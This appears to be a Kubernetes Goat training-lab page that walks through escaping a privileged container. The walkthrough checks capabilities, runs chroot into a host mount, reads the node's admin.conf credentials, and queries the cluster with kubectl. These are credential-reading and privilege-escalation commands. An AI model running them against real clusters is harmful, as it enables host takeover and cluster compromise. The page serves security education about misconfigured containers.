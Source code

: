 ```yaml
---
title: ⎈ Container escape to the host system
sidebar_label: Welcome
sidebar_position: 2
description: Gain access to host system by escaping out of the container in Kubernetes Container - Kubernetes Goat Scenario 🚀
slug: container-escape-to-the-host-system-in-kubernetes-containers/welcome
---
```


# ⎈ Container escape to the host system

## 🙌 Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

![](../images/scenario-4.png)

By the end of the scenario, you will understand and learn the following:

1. Able to exploit the container and escape out of the docker container
2. You will learn to test and exploit the misconfigured and privileged containers
3. Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

### ⚡️ The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

:::info

To get started with the scenario, navigate to [http://127.0.0.1:1233](http://127.0.0.1:1233)

:::

![Scenario 4 Welcome](../images/sc-4-1.png)

### 🎯 Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

:::tip

Gain access to the host system and obtain the node level kubeconfig file `/var/lib/kubelet/kubeconfig`, and query the Kubernetes nodes using the obtained configuration.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Are you still in the container? </b></summary>
  <div>
    <div>See the mounted file systems, also look the capabilities available for the container using <b>capsh</b> 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Escaped container? </b></summary>
  <div>
    <div>You can recon the system, some interesting places to obtain the node level configuration are <b>/var/lib/kubelet/kubeconfig</b> and I hope you know how to query Kubernetes API for nodes? 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

- After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```bash
capsh --print
```

```bash
mount
```

- Now you can explore the mounted file system by navigating to the `/host-system` path

```bash
ls /host-system/
```

![Scenario 4 host system](../images/sc-4-2.png)

- You can gain access to the host system privileges using `chroot`

```bash
chroot /host-system bash
```

- As you can see, now you can access all the host system resources like docker containers, configurations, etc.

```bash
crictl pods
```

![Scenario 4 chroot host](../images/sc-4-3.png)

- The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```bash
cat /etc/kubernetes/admin.conf
```

![Scenario 4 kubelet config](../images/sc-4-4.png)

:::tip

You can use the available `kubectl` command-line utility to explore other resources using the obtained configuration. Also, you can leverage lots of other potential things by using the available utilities or downloading them as required.

:::

- Using the kubelet configuration to list the Kubernetes cluster-wide resources

```bash
kubectl --kubeconfig /etc/kubernetes/admin.conf get all -n kube-system
```

![Scenario 4 get kube-system](../images/sc-4-5.png)

:::info

From here you can go beyond by performing the lateral moment and a post-exploitation based on the available setup, configuration, and resources
:::
 e
- You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```bash
kubectl --kubeconfig /etc/kubernetes/admin.conf get nodes
```

- Hooray 🥳 , now you can see that it returns the cluster nodes available as we have the privilege/permissions with obtained configuration to query the Kubernetes API server


## 🔖 References

- [Realworld case study of exploiting cap_sys_ptrace capability](https://madhuakula.com/content/attacking-and-auditing-docker-containers-using-opensource/attacking-docker-containers/capability.html)
- [Abusing Privileged and Unprivileged Linux Containers - NCC Group Whitepaper](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)
- [Understanding and Hardening Linux Containers - NCC Group Whitepaper](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
